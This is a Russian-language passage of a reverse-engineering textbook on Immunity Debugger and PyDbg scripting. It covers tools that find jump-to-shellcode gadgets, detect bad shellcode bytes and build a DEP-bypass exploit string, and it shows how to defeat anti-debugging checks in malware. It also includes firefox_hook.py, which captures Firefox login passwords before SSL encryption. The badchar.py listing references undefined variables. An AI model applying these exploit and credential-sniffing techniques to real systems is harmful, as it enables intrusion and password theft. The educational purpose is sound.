%% !<scriptname>
Как только вы нажмете ENTER, ваш скрипт начнет выполняться.

5.2.2 PyHooks

Immunity Debugger поставляется с 13-ю различными видами перехватов, каждый из которых вы можете реализовать либо как отдельный скрипт, либо как внутренний скрипт PyCommand. Могут использоваться следующие типы перехватов: 
%% BpHook/LogBpHook
Когда встречается брейкопйнт – срабатывают эти типы перехватов. Оба перехвата ведут себя одинаково, за исключением того, что когда встречается BpHook, то он в действительности останавливает выполнение отладчика, тогда как LogBpHook не прерывает его выполнение.

%% AllExceptHook
Любое исключение, которое произойдет в процессоре, вызовет выполнение этого типа перехвата.

%% PostAnalysisHook
Этот перехват срабатывает после того, как отладчик закончит анализировать загруженный модуль. Это может быть полезно, если у вас есть некоторые задачи статического анализа, которые вы хотите произвести автоматически, сразу после завершения анализа модуля. Важно заметить, что модуль (включая основной исполняемый файл) нужно проанализировать прежде, чем вы сможете декодировать функции и основные блоки, используя immlib.

%% AccessViolationHook
Этот перехват срабатывает всякий раз, когда происходит нарушение прав доступа; он наиболее полезен для перехвата информации во время выполнения фаззинга. 

%% LoadDLLHook/UnloadDLLHook
Этот перехват срабатывает всякий раз, когда загружается/выгружается DLL.

%% CreateThreadHook/ExitThreadHook
Этот перехват срабатывает всякий раз, когда создается/уничтожается поток.

%% CreateProcessHook/ExitProcessHook
Этот тип перехвата срабатывает, когда целевой процесс запускается или заканчивает работу (exited). 

%% FastLogHook/STDCALLFastLogHook
Эти два перехвата используют заглушку, для передачи выполнения маленькому телу кода перехватчика, который может логировать определенное значение регистра или участка памяти во время перехвата. Эти перехваты полезны для перехвата часто вызываемых функций; мы рассмотрим их использование в Главе 6.
Что бы задать PyHook можно использовать следующий шаблон, который использует LogBpHook в качестве примера:

Код:
%% from immlib import *

%% class MyHook( LogBpHook ):

%%     def __init__( self ):
%%         LogBpHook.__init__( self )

%%     def run( regs ):
%%         # Executed when hook gets triggered
Мы перегружаем класс LogBpHook и удостоверяемся, что определена функция run(). Когда сработает перехват, функция run() принимает, в качестве единственного аргумента, перечень всех регистров процессора, которые были установлены в момент срабатывания хука, что позволяет нам просмотреть или изменить текущие значения по своему усмотрению. Переменная regs является словарем, который мы можем использовать для доступа к регистрам по именам, вот так:

Код:
%% regs["ESP"]
Теперь мы можем определять перехваты несколькими способами, с помощью PyCommand и PyHooks. Таким образом, можно устанавливать перехваты либо в ручную с помощью PyCommand, либо автоматически с помощью PyHooks (находится в основном установочном каталоге Immunity Debugger). В случае PyCommand, перехват будет установлен всякий раз, как будет выполнен PyCommand. В случае же PyHooks, перехват будет срабатывать автоматически при каждом запуске Immunity Debugger. Теперь давайте перейдем к некоторым примерам использования immlib, встроенной Python-библиотеки Immunity Debugger. 


5.3 Разработка эксплойта

Обнаружение уязвимости в программном обеспечении это только начало длинного и трудного путешествия предстоящего вам для получения надежного работающего эксплойта. Immunity Debugger имеет множество конструкторских особенностей, позволяющих пройти путь его разработки немного легче. Мы разработаем некоторые PyCommands, ускоряющие процесс разработки эксплойта, включая способ нахождения инструкций, для получения EIP, а также фильтрацию байтов не пригодных к использованию в шелл-коде. Так же мы будем использовать PyCommand !findatidep, поставляющуюся в комплекте с Immunity Debugger, которая помогает обойти DEP (Data Execution Prevention) [3]. Давайте начнем! 

5.3.1 Поиск дружественных эксплойту инструкций

После того как вы получили контроль на EIP, нужно передать выполнение на шелл-код. Как правило, у вас будет регистр или смещение от регистра, которое будет указывать на шелл-код. Ваше задание – найти инструкцию, где-нибудь в исполняемом файле или одном из его загруженных модулей, которая передаст управление нужному адресу. Python-библиотека Immunity Debugger делает это легким делом, предоставляя интерфейс поиска, который позволяет искать интересующие инструкции по всему загруженному бинарному файлу. Давайте на коленке быстро набросаем скрипт, который будет получать инструкцию и возвращаться все адреса, где эта инструкция встречается. Создайте новый файл findinstruction.py и введите следующий код.

findinstruction.py:
Код:
%% from immlib import *

%% def main(args):

%%     imm = Debugger()
%%     search_code = " ".join(args)

%%      (#1): search_bytes = imm.Assemble( search_code )
%%      (#2): search_results = imm.Search( search_bytes )

%%     for hit in search_results:
%%         # Retrieve the memory page where this hit exists
%%         # and make sure it's executable
%%          (#3): code_page = imm.getMemoryPagebyAddress( hit )
%%          (#4): access = code_page.getAccess( human = True )

%%         if "execute" in access.lower():
%%             imm.log( "[*] Found: %s (0x%08x)" % ( search_code, hit ), address = hit )

%%     return "[*] Finished searching for instructions, check the Log window."
В начале, переведем полученные инструкции в их бинарный эквивалент (\#1), а затем используем функцию Search(), для поиска всех инструкций, в памяти загруженного бинарного файла (\#2). Далее, в возвращенном списке перебираем все обнаруженные адреса, для получения страницы памяти, где расположена инструкция (\#3), после чего удостоверяемся в том, что память помечена как исполняемая (\#4). Затем, для каждой инструкции, в исполняемой странице памяти, находим ее адрес и выводим в окно «Log». Для использования скрипта, просто передайте инструкцию, которую вы ищите, в качестве аргумента, вот так: 

Код:
%% !findinstruction <instruction to search for>
После выполнения скрипта, с такими параметрами:

Код:
%% !findinstruction jmp esp
Вы увидите результат похожий на Рис. 5-2.

 
Рис. 5-2: Вывод PyCommand !findinstruction

Теперь у нас есть список адресов, которые мы можем использовать для выполнения нашего шелл-кода, предполагая, что его можно запустить через регистр ESP. Помимо списка адресов, у нас теперь есть неплохой инструмент, позволяющий быстро находить адреса интересующих нас инструкций.

5.3.2 Фильтрация плохих символов

Когда вы посылаете строку, содержащую эксплойт, целевой системе – есть некоторые наборы символов, которые вы не сможете использовать в шелл-коде. Например, если мы нашли переполнение стека при вызове функции strcpy(), то наш эксплойт не может содержать символ NULL (0x00), потому что strcpy() перестает копировать данные, как только встречает значение NULL. Поэтому при написании эксплойтов используют shellcode-кодировщики, которые после запуска шелл-кода декодируют и выполняют его. Однако, существую еще некоторые случаи, когда вы можете иметь несколько символов отфильтровывающихся или обрабатывающихся неким специальным образом в уязвимом ПО, что может стать настоящим кошмаром, для определения их в ручную.

Обычно, когда вы поместили шелл-код в уязвимую программу, и он не запустился (вызвав нарушение прав доступа или сбой в программе, до своего полного выполнения) нужно, для начала, убедиться в том, что он скопировался в память именно так, как вы этого хотели. Immunity Debugger может облегчить решение этой задачи. Посмотрите на Рис. 5-3, который показывает стек после переполнения.


Рис. 5-3: Immunity Debugger окно стека после переполнения

Мы видим, что регистр EIP в настоящий момент указывает на регистр ESP. Четыре байта 0xCC просто заставят остановиться отладчик, как если бы там был установлен брейкпойнт (помните? 0xCC это инструкция INT3). Сразу же после четырех инструкций INT3, по смещению ESP+0x4, располагается шелл-код. Именно там нужно начать исследование памяти, что бы убедиться, что наш шелл-код точно такой, какой мы его отправили во время нашей атаки на целевую систему. Для исследования шелл-кода, находящегося в памяти, мы просто возьмем оригинал виде ASCII-строки и сравним его (побайтно) с шелл-кодом размещенном в памяти, что бы удостовериться, что шелл-код был загружен правильно. Если мы замечаем различие – выводим плохой байт, который не прошел через программный фильтр, в Log. После чего, мы можем добавить обработку такого символа в shellcode-кодер, до запуска повторной атаки! Для проверки работоспособности этого инструмента, можно взять шелл-код из Metasploit, либо свою собственную домашнюю заготовку. Создайте новый файл badchar.py и введите следующий код.

badchar.py:
Код:
%% from immlib import *

%% def main(args):

%%     imm = Debugger()

%%     bad_char_found = False

%%     # First argument is the address to begin our search
%%     address = int(args[0],16)

%%     # Shellcode to verify
%%     shellcode = "<<COPY AND PASTE YOUR SHELLCODE HERE>>"
%%     shellcode_length = len(shellcode)

%%     debug_shellcode = imm.readMemory( address, shellcode_length )
%%     debug_shellcode = debug_shellcode.encode("HEX")

%%     imm.log("Address: 0x%08x" % address)
%%     imm.log("Shellcode Length : %d" % length)

%%     imm.log("Attack Shellcode: %s" % canvas_shellcode[:512])
%%     imm.log("In Memory Shellcode: %s" % id_shellcode[:512])

%%     # Begin a byte-by-byte comparison of the two shellcode buffers
%%     count = 0
%%     while count <= shellcode_length:

%%         if debug_shellcode[count] != shellcode[count]:
%%             imm.log("Bad Char Detected at offset %d" % count)
%%             bad_char_found = True
%%             break

%%         count += 1

%%     if bad_char_found:
%%         imm.log("[*****] ")
%%         imm.log("Bad character found: %s" % debug_shellcode[count])
%%         imm.log("Bad character original: %s" % shellcode[count])
%%         imm.log("[*****] ")

%%     return "[*] !badchar finished, check Log window."
В этом скрипте, мы в действительности используем только вызов readMemory() из библиотеки Immunity Debugger, а в остальной части скрипта производится простое сравнение строк. Теперь все что вам нужно сделать, это взять ваш шелл-код как ASCII-строку (например, если у вас байты 0xEB 0x09, тогда ваша строка будет выглядеть как EB09), вставить ее в скрипт и запустить скрипт следующим образом:

Код:
%% !badchar <Address to Begin Search>
В нашем предыдущем примере, мы бы начали поиск c ESP+0x4, абсолютный адрес которого равен 0x00AEFD4C, поэтому запускаем PyCommand следующим образом:

Код:
%% !badchar 0x00AEFD4c
После запуска, скрипт сразу предупредил бы нас о любых проблемах с фильтрацией плохих символов и мог бы значительно сократить время, затрачиваемое на отладку сбоя в шелл-коде или реверсинг каких-либо фильтров, с которыми мы могли бы столкнуться.

5.3.3 Обход DEP

DEP – это мера обеспечения безопасности реализованная в Microsoft Windows (XP SP2, 2003 и Vista), для предотвращения выполнения кода в областях памяти, таких как куча и стек. Это может помешать выполнению шелл-кода в большинстве эксплойтах, потому что большинство эксплойтов хранят свои шелл-коды в куче или стеке. Однако, есть известный прием [4] посредством которого мы можем использовать родные вызовы Windows API, что бы отключить DEP, для текущего процесса в котором мы выполняемся и в котором разрешено безопасно передавать управление на наш шелл-код независимо от того хранится ли он в стеке или в куче. Immunity Debugger поставляется вместе с PyCommand называемой findantidep.py. которая определяет соответствующие адреса, для установки вашего эксплойта, таким образом, что бы отключить DEP и выполнить шелл-код. Рассмотрим небольшую теорию по отключению DEP. Затем перейдем к использованию скрипта PyCommand, позволяющего находит интересующие нас адреса. 

Вызов Windows API, который можно использовать, чтобы отключить DEP для текущего процесса, является недокументированной функцией NtSetInformationProcess() [5], которая имеет следующий прототип:

Код:
%% NTSTATUS NtSetInformationProcess(
%%     IN HANDLE hProcessHandle,
%%     IN PROCESS_INFORMATION_CLASS ProcessInformationClass,
%%     IN PVOID ProcessInformation,
%%     IN ULONG ProcessInformationLength );
Чтобы отключить DEP – нужно вызвать функцию NtSetInformationProcess() с установленным параметрами: ProcessInformationClass в значение ProcessExecuteFlags (0x22) и ProcessInformation в значение MEM\_EXECUTE\_OPTION\_ENABLE (0x2). Проблема с простой установки шелл-кода заключается в том, что вызов этой функции состоит из некоторого количества NULL-параметров, которые являются проблемными для большинства шелл-кодов. Прием позволяющий обойти это ограничение, заключается в размещение шелл-кода в средине функции, которая уже на стеке вызовет NtSetInformationProcess() с необходимыми параметрами. В ntdll.dll есть известное место, которое выполняет это за нас. Посмотрите на дизассемблерный вывод ntdll.dll для Windows XP SP2, полученный с помощью Immunity Debugger.

Код:
%% 7C91D3F8     . 3C 01            CMP AL,1
%% 7C91D3FA     . 6A 02            PUSH 2
%% 7C91D3FC     . 5E               POP ESI
%% 7C91D3FD     . 0F84 B72A0200    JE ntdll.7C93FEBA
%% ...
%% 7C93FEBA     > 8975 FC          MOV DWORD PTR SS:[EBP-4],ESI
%% 7C93FEBD     .^E9 41D5FDFF      JMP ntdll.7C91D403
%% ...
%% 7C91D403     > 837D FC 00       CMP DWORD PTR SS:[EBP-4],0
%% 7C91D407     . 0F85 60890100    JNZ ntdll.7C935D6D
%% ...
%% 7C935D6D     > 6A 04            PUSH 4
%% 7C935D6F     . 8D45 FC          LEA EAX,DWORD PTR SS:[EBP-4]
%% 7C935D72     . 50               PUSH EAX
%% 7C935D73     . 6A 22            PUSH 22
%% 7C935D75     . 6A FF            PUSH -1
%% 7C935D77     . E8 B188FDFF      CALL ntdll.ZwSetInformationProcess
Следуя по этому коду видим сравнение AL со значением 1, затем в ESI помещается значение 2. Если AL равен 1, то срабатывает условный переход на 0x7C93FEBA. Там значение из ESI перемещается в переменную стека EBP-4 (помните, что ESI все еще установлена в 2?). Затем проверяется условие по адресу 0x7C91D403, которое проверяет нашу переменную в стеке (она все еще равна 2), что бы убедиться, что она не равна нулю, после чего срабатывает условный переход на 0x7C935D6D. Вот тут начинается самое интересное; видно что значение 4 помещается в стек, переменная EBP-4 (все еще равна 2!) загружается в регистр EAX, затем это значение помещается в стек, далее вталкивается значение 0x22 и значение -1 (-1, дескриптор процесса, который говорит вызову функции, что это текущий процесс, в котором нужно отключить DEP), затем следует вызов ZwSetInformationProcess (псевдоним NtSetInformationProcess). Итак, в действительности то, что случилось в этом куске кода, вызвало функцию NtSetInformationProcess (), со следующими параметрами:

Код:
%% NtSetInformationProcess( -1, 0x22, 0x2, 0x4 )
Perfect! Это отключит DEP для текущего процесса, но для этого нам нужно передать управление на адрес 0x7C91D3F8. Перед тем как мы передадим управление на этот кусок кода, нам нужно убедиться, что AL (младший байт EAX) установлен в 1. После выполнения этих условий, мы сможем передать управление шелл-коду, как и в любом другом переполнении, например, с помощью инструкции JMP ESP. Таким образом нужно три адреса:
Адрес, который устанавливает AL в 1, а затем возвращает управление;
Адрес, где находится кусок кода для отключения DEP;
Адрес для передачи управления в начало нашего шелл-кода.
Обычно вам нужно искать эти адреса в ручную, но разработчики эксплойтов в Immunity создали небольшой Python-скрипт findantidep.py, выполненного виде wizard (мастера), который проведет вас через процесс поиска этих адресов. Он даже создает строку для эксплойта, которую вы можете скопировать и вставить в ваш экплойт. Это позволяет вам использовать найденные адреса вообще без каких-либо усилий. Давайте посмотрим на скрипт findantidep.py, а затем испытаем его.

findantidep.py:
Код:
%% import immlib
%% import immutils

%% def tAddr(addr):
%%     buf = immutils.int2str32_swapped(addr)
%%     return "\\x%02x\\x%02x\\x%02x\\x%02x" % ( ord(buf[0]) , ord(buf[1]), ord(buf[2]), ord(buf[3]) )

%% DESC="""Find address to bypass software DEP"""

%% def main(args):
%%     imm=immlib.Debugger()
%%     addylist = []
%%     mod = imm.getModule("ntdll.dll")

%%     if not mod:
%%         return "Error: Ntdll.dll not found!"

%%     # Finding the First ADDRESS
%%      (#1): ret = imm.searchCommands("MOV AL,1\nRET")
%%     if not ret:
%%         return "Error: Sorry, the first addy cannot be found"

%%     for a in ret:
%%         addylist.append( "0x%08x: %s" % (a[0], a[2]) )
%%         ret = imm.comboBox("Please, choose the First Address [sets AL to 1]", addylist)

%%     firstaddy = int(ret[0:10], 16)
%%     imm.Log("First Address: 0x%08x" % firstaddy, address = firstaddy)

%%     # Finding the Second ADDRESS
%%      (#2): ret = imm.searchCommandsOnModule( mod.getBase(), "CMP AL,0x1\n PUSH 0x2\n POP ESI\n" )

%%     if not ret:
%%         return "Error: Sorry, the second addy cannot be found"

%%     secondaddy = ret[0][0]
%%     imm.Log( "Second Address %x" % secondaddy , address= secondaddy )

%%     # Finding the Third ADDRESS
%%      (#3): ret = imm.inputBox("Insert the Asm code to search for")
%%     ret = imm.searchCommands(ret)

%%     if not ret:
%%         return "Error: Sorry, the third address cannot be found"

%%     addylist = []

%%     for a in ret:
%%         addylist.append( "0x%08x: %s" % (a[0], a[2]) )

%%     ret = imm.comboBox("Please, choose the Third return Address [jumps to shellcode]", addylist)

%%     thirdaddy = int(ret[0:10], 16)

%%     imm.Log( "Third Address: 0x%08x" % thirdaddy, thirdaddy )

%%      (#4): imm.Log( 'stack = "%s\\xff\\xff\\xff\\xff%s\\xff\\xff\\xff\\xff" + "A" * 0x54 + "%s" + shellcode ' % ( tAddr(firstaddy), tAddr(secondaddy), tAddr(thirdaddy) ) )
Итак, вначале найдем команды, которые будут устанавливать AL в 1 (\#1), затем попросим пользователя выбрать походящий адрес. После чего, произведем поиск набора инструкций в ntdll.dll, которые содержат код отключения DEP (\#2). На третьем шаге просим пользователя ввести инструкцию или инструкции, которые должны будут передать управление на шелл-код (\#3), и предоставляем пользователю список адресов, где эти инструкции могут быть найдены. Скрипт заканчивается выводом результатов в окно Log (\#4). Посмотрите на рисункци 5-4 – 5-6, что бы увидеть, как проходит этот процесс.


Рис. 5-4: Вначале выбираем адрес который установит AL в 1


Рис. 5-5: Затем вводим набор инструкций, которые передадут управление на шелл-код


Рис. 5-6: Теперь выбираем адрес который вернется из шага (\#2)

И в конце концов вы увидите вывод в окне Log, как показано тут:

Код:
%% stack = "\x75\x24\x01\x01\xff\xff\xff\xff\x56\x31\x91\x7c\xff\xff\xff\xff" + "A" * 0x54 + "\x75\x24\x01\x01" + shellcode
Теперь вы можете просто скопировать и вставить эту строку вывода в эксплойт и добавить свой шелл-код. Использование этого скрипта может помочь протировать существующие эксплойты, так чтобы они могли успешно выполняться в системе с включенным DEP или создавать новые эксплойты, которые поддерживали бы отключение DEP из коробки. Это замечательный пример забирающий часы ручного поиска, который превратился в 30-ти секундное упражнение. Теперь вы можете видеть, как некоторые простые Python-скрипты могут помочь вам разрабатывать более надежные и переносимые эксплойты в сжатые сроки. Давайте перейдем к использованию immlib для обхода общих анти-отладочных процедур во вредоносном программном обеспечении. 


5.4 Обход анти-отладочных методов

Текущие разновидности вредоносного ПО становятся все более и более запутанными в своих методах заражения, распространения и своих способностях защиты от анализа. Помимо общих методов обфускации кода, таких как использование упаковщиков и крипторов вредоносное ПО обычно применяет анти-отладочные приемы, пытаясь предотвратить свой анализ с помощью отладчика, чтобы затруднить свое исследование. Используя Immunity Debugger и Python можно создать некоторые простые скрипты, позволяющее обойти некоторые из этих анти-отладочных приемов, что бы помочь аналитику при исследовании сэмплов вредоносов. Давайте посмотрим на некоторые из этих наиболее распространенных анти-отладочных методов и на напишем некоторый соответствующий код для их обхода.

5.4.1 IsDebuggerPresent

Безусловно наиболее распространенным анти-отладочным методов является использование функции IsDebuggerPresent() экспортируемой из kernel32.dll. Эта функция вызывается без параметров и возвращает 1 если есть присоединенный отладчики к текущему процессу или 0 если его нет. Если мы дизассемблируем эту функцию, мы увидим следующий кусок кода:

Код:
%% 7C813093     >/$ 64:A1 18000000     MOV EAX,DWORD PTR FS:[18]
%% 7C813099     |. 8B40 30             MOV EAX,DWORD PTR DS:[EAX+30]
%% 7C81309C     |. 0FB640 02           MOVZX EAX,BYTE PTR DS:[EAX+2]
%% 7C8130A0     \.                     C3 RETN
Этот код загружает адрес из TIB (Thread Information Block), который всегда располагается по смещению 0x18 от регистра FS. Оттуда он загружает PEB (Process Environment Block), который всегда находится по смещению 0x30 в TIB. Третья инструкция устанавливает EAX в значение из параметра BeingDebugged, который располагается по смещению 0x2 в PEB. Если есть отладчик присоединенный к процессу – этот байт устанавливает в 0x1. Простой обход для этого был опубликован Демианом Гомесом (Damian Gomez) [6] из Immunity, который является всего лишь одной Python-строкой, которая может содержаться в PyCommand или может быть выполнена из Python-шела в Immunity Debugger:

Код:
%% imm.writeMemory( imm.getPEBaddress() + 0x2, "\x00" )
Этот код просто обнуляет флаг BeingDebugged в PEB, и теперь любой зловред, который использует эту проверку, будет обманут, полагая, что нет присоединенного отладчика. 

5.4.2 Обход перебора процессов

Вредоносы также пытаются перебирать все запущенные процессы на компьютере, что бы определить запущен ли отладчик. Например, если вы используете Immunity Debugger для исследования вируса, то ImmunityDebugger.exe будет зарегистрирован как работающий процесс. Для перебора запущенных процессов зловред будет использовать функцию Process32First() для получения первого зарегистрированного процесса в списке процессов системы, а затем будет использовать Process32Next() для перебора всех оставшихся процессов. Оба эти вызова функций возвращают булево значение, которое говорит вызывающему коду успешно ли выполнилась функция или нет, поэтому мы можем просто пропатчить две эти функции, так что бы EAX регистр устанавливался в нуль, при возвращении результата функцией. Мы будем использовать мощный встроенный ассемблер Immunity Debugger для достижения этой цели. Посмотрите на следующий код:

Код:
%% (#1): process32first = imm.getAddress("kernel32.Process32FirstW")
%% process32next = imm.getAddress("kernel32.Process32NextW")

%% function_list = [ process32first, process32next ]

%% (#2): patch_bytes = imm.Assemble( "SUB EAX, EAX\nRET" )

%% for address in function_list:
%%      (#3): opcode = imm.disasmForward( address, nlines = 10 )
%%      (#4): imm.writeMemory( opcode.address, patch_bytes )
Вначале находим адреса двух функций перебирающих процессы и сохраняем их в список (\#1). Затем переводим некоторые байты в соответствующие им опкоды, которые установят регистр EAX в 0 и вернут управление из функции; в этом и будет заключаться наш патч (\#2), Дальше мы проходим 10 инструкций (\#3), в нутрии функций Process32First и Process32Next. Делаем мы это потому, что некоторые продвинутые зловреды на самом деле будут проверять несколько первых байт этих функций, что бы убедиться в том, что функция не была пропатчена реверс инженером. Мы обманам их, пропатчив 10-тью инструкциями ниже; правда, если они проверят целостность всей функции, они обнаружат нас. После того как пропатчим байты в функциях (\#4), обе функции будут возвращать ложный результат независимо от того, как они будут вызываться.

Мы рассмотрели два примера того, как вы можете использовать Python и Immunity Debugger для создания автоматизированных способов защиты от вредоносных программ, пытающихся определить наличие присоединенного отладчика. Существует намного больше анти-отладочных методов, которые могут быть использованы, поэтому будет написано бесконечное множество Python-скриптов, чтобы справиться с ними! Полученные в этой главе знания помогут насладиться более коротким временем разработки эксплойтов, а так же новым арсеналом инструментов для борьбы против зловредов. 

Теперь давайте перейдем к некоторым методам перехвата, которые вы можете использовать во время реверсинга.

\chapter{Hooking}

Hooking (прим. пер. далее перехват) – это мощная техника, которая используется для того, чтобы иметь возможность контролировать или изменять данные доступные процессу. Именно перехваты, позволяют руткитам скрывать свое присутствие, кейлогерам отслеживать нажатия клавиш, а отладчикам – отлаживать! Реверс инженер может сэкономить кучу времени, реализовав несколько простых перехватов для сбора интересующей его информации, вместо того, чтобы делать это вручную. Это невероятно простая и в тоже время мощная техника.

На платформе Windows существует множество методов позволяющих осуществить перехваты. Мы сфокусируемся на двух основных, которые я называю «программные» и «жесткие» перехваты. Программный перехват (soft hook) – это когда вы присоединяетесь к исследуемому процессу и устанавливаете обработчики прерываний (breakpoint handlers), чтобы перехватить поток исполнения процесса. Это может походить на уже знакомую теорию потому, что по сути вы написали перехватчик в 4-ой главе «4.1 Расширение брэйкпоинт-обработчиков». Жесткий перехват (hard hook) – это когда вы напрямую вставляете переходник, на обработчик перехвата, в код, где хотите осуществить сам перехват. Программные перехваты полезно использовать для не интенсивно или редко используемых вызовов функций. Однако, для того чтобы перехватить вызов часто используемой процедуры и оказывать наименьшее воздействие на процесс, нужно использовать жесткие перехваты. Главными кандидатами на использование жестких перехватов являются процедуры управления кучей или процедуры, интенсивно использующие файловые операции ввода/вывода (file I/O operations).

В этой главе мы воспользуемся рассмотренными ранее инструментами для того, чтобы применить обе методики перехвата. Начнем с использования PyDbg, который будет задействован для установки нескольких программных перехватов (soft hooking), которые позволят перехватить (sniff) зашифрованный сетевой трафик. Далее задействовав Immunity Debugger, перейдем к жестким перехватам (hard hooking), чтобы сделать высокоэффективный инструментарий для работы с процедурами управления кучи. 


6.1 Программные перехваты с помощью PyDbg

Первый пример, который мы рассмотрим, включает в себя перехват зашифрованного трафика на прикладном уровне (прим. пер. см. модель OSI). Обычно, чтобы понять, как клиент или сервер взаимодействует с сетью, мы будем использовать анализатор трафика Wireshark [1]. К сожалению, Wireshark ограничен тем, что может видеть только зашифрованные данные, что, конечно же, скрывает истинную природу изучаемого протокола. Используя технику программных перехватов, мы можем перехватить данные, до того как они будут зашифрованы и до того, как они будут получены и расшифрованы. 

Программой, на которой мы будем испытывать программные перехваты, будет популярный веб-браузер с открытым исходным кодом Mozilla Firefox [2]. В этом упражнении мы сделаем вид, что Firefox – это браузер с закрытым кодом (иначе было бы не так весело, не правда ли?) и наша работа состоит в том, чтобы перехватить данные из процесса firefox.exe до того, как они будут зашифрованы и отправлены на сервер. Наиболее распространенной формой шифрования, которую использует Firefox, является протокол шифрования SSL (Secure Sockets Layer); таким образом, мы определились с основной целью в нашем упражнении. 

Чтобы обнаружить вызов или вызовы отвечающие за передачу незашифрованных данных, вы можете использовать технику для регистрации межмодульных вызовов (logging intermodular calls) , которая описана в следующей теме http://forum.immunityinc.com/index.php?topic=35.0. Нет «конкретного» места, где именно нужно ставить перехват; все зависит только от ваших предпочтений. Поэтому, чтобы мы не разошлись в разные стороны, договоримся, что перехват установлен на функцию PR\_Write, которая экспортируется из nspr4.dll. Когда эта функция будет вызвана, в указателе на массив символов ASCII, который размещен по адресу [ESP + 8], будут содержаться данные до их непосредственного шифрования. Смещение +8 от регистра ESP говорит нам о том, что это второй параметр, передаваемый в интересующую нас функцию PR\_Write. Именно здесь мы и будем перехватывать ASCII данные, регистрировать их и продолжать выполнение процесса. 

Сначала давайте убедимся, что мы действительном можем видеть данные которые нас интересуют. Откройте Firefox и перейдите на один из моих любимых сайтов: https://www.openrce.org/. Как только вы приняли SSL-сертификат сайта и его страница загрузилась, присоедините Immunity Debugger к процессу firefox.exe и установите http://ru.und3rgr0und.org/wiki/Breakpointбрэйкпоинт на nspr4.PR\_Write. В правом верхнем углу веб-сайта OpenRCE есть форма входа; введите имя пользователя «test», пароль «test» и нажмите кнопку «Login». Брэйкпоинт, который вы установили, должен сразу же сработать; продолжайте жать кнопку F9 и вы будете видеть его постоянное срабатывание. В конце концов, вы увидите указатель на строку в стеке, которая разыменовываеться во что-то похожее:
Код:
%% [ESP + 8] => ASCII "username=test&password=test&remember_me=on"
Славно! Мы можем отчетливо видеть имя пользователя и пароль, но если бы вы посмотрели на эту транзакцию на сетевом уровне (network level), то все данные были бы непонятными из-за сильного SSL-шифрования. Этот метод будет работать не только с сайтом OpenRCE; например, чтобы дать выход вашей паранойи, зайдите на более критичный к утечке данных сайт, и посмотрите, как можно легко видеть незашифрованную информацию, передаваемую на сервер. Теперь давайте автоматизируем этот процесс так, чтобы мы могли перехватывать соответствующую информацию, не управляя отладчиком вручную. 

Чтобы определить программный перехват с помощью PyDbg, необходимо вначале определить hook container, который будет содержать все ваши объекты перехватов (hook objects). Для инициализации контейнера используйте следующую команду:
Код:
%% hooks = utils.hook_container()
Чтобы определить перехват и добавить его в контейнер, используйте метод add() из класса hook\_container. Прототип функции имеет следующий вид:
Код:
%% add( pydbg, address, num_arguments, func_entry_hook, func_exit_hook )
Первый параметр – pydbg объект. Параметр address – это адрес, на который вы хотите установить перехват. В параметре num\_arguments задается количество параметров, которые получает перехватываемая функция. Параметры func\_entry\_hook и func\_exit\_hook – это функции обратного вызова (callback), которые определяют код, который будет вызван сразу после срабатывания перехвата и перед его завершением. Стартовые перехваты (entry hooks, прим. пер. т.е. перехваты, установленные на начало функции) полезны тем, что позволяют видеть параметры передаваемые в функцию, в то время как конечные перехваты (exit hooks, прим. пер. т.е. перехваты, установленные в конце функции) позволяют перехватывать возвращаемые значения. 

Функция entry hook callback должна иметь следующий прототип:
Код:
%% def entry_hook( dbg, args ):
    
%%     # Hook code here

%%     return DBG_CONTINUE
Параметр dbg – это pydbg объект, который используется для установки перехвата. Параметр args – это список zero-based параметров, которые были перехвачены во время срабатывания перехвата.

Прототип функции exit hook callback немного отличается от предыдущей тем, что имеет дополнительный параметр ret, который является возвращаемым значением перехваченной функции (т.е. значением из регистра EAX).
Код:
%% def exit_hook( dbg, args, ret ):
    
%%     # Hook code here

%%     return DBG_CONTINUE
Чтобы продемонстрировать, как использовать entry hook callback для перехвата нешифрованного трафика, откройте новый файл Python, назовите его firefox\_hook.py и введите следующий код.

firefox\_hook.py
Код:
%% from pydbg import *
%% from pydbg.defines import *

%% import utils
%% import sys

%% dbg = pydbg()
%% found_firefox = False

%% # Let's set a global pattern that we can make the hook
%% # search for
%% pattern = "password"

%% # This is our entry hook callback function
%% # the argument we are interested in is args[1]
%% def ssl_sniff( dbg, args ):

%%     # Now we read out the memory pointed to by the second argument
%%     # it is stored as an ASCII string, so we'll loop on a read until
%%     # we reach a NULL byte
%%     buffer = ""
%%     offset = 0

%%     while 1:
%%         byte = dbg.read_process_memory( args[1] + offset, 1 )

%%         if byte != "\x00":
%%             buffer += byte
%%             offset += 1
%%             continue
%%         else:
%%             break

%%     if pattern in buffer:
%%         print "Pre-Encrypted: %s" % buffer

%%     return DBG_CONTINUE

%% # Quick and dirty process enumeration to find firefox.exe
%% for (pid, name) in dbg.enumerate_processes():

%%     if name.lower() == "firefox.exe":

%%         found_firefox = True
%%         hooks = utils.hook_container()

%%         dbg.attach(pid)
%%         print "[*] Attaching to firefox.exe with PID: %d" % pid

%%         # Resolve the function address
%%             hook_address = dbg.func_resolve_debuggee("nspr4.dll","PR_Write")

%%         if hook_address:
%%             # Add the hook to the container. We aren't interested
%%             # in using an exit callback, so we set it to None.
%%             hooks.add( dbg, hook_address, 2, ssl_sniff, None )
%%             print "[*] nspr4.PR_Write hooked at: 0x%08x" % hook_address
%%             break
%%         else:
%%             print "[*] Error: Couldn't resolve hook address."
%%             sys.exit(-1)

%% if found_firefox:
%%     print "[*] Hooks set, continuing process."
%%     dbg.run()
%% else:
%%     print "[*] Error: Couldn't find the firefox.exe process."
%%     sys.exit(-1)
Этот код довольно прост. Он устанавливает перехват на PR\_Write, и когда тот срабатывает, мы пытаемся прочитать ASCII-строку, на которую указывает второй параметр. Если читаемая строка соответствует нашему шаблону, то мы выводим ее в консоль. Запустите новый экземпляр Firefox, после чего запустите firefox\_hook.py из командной строки. Повторите ваши предыдущие шаги, попытавшись залогиниться на https://www.openrce.org/ и вы должны будете увидеть вывод, похожий на Листинг 6-1.

Листинг 6-1: Круто! Мы можем четко видеть имя и пароль, до их шифрования.
Код:
%% [*] Attaching to firefox.exe with PID: 1344[*] nspr4.PR_Write hooked at: 0x601a2760[*] Hooks set, continuing process.
%% Pre-Encrypted: username=test&password=test&remember_me=on
%% Pre-Encrypted: username=test&password=test&remember_me=on
%% Pre-Encrypted: username=jms&password=yeahright!&remember_me=on
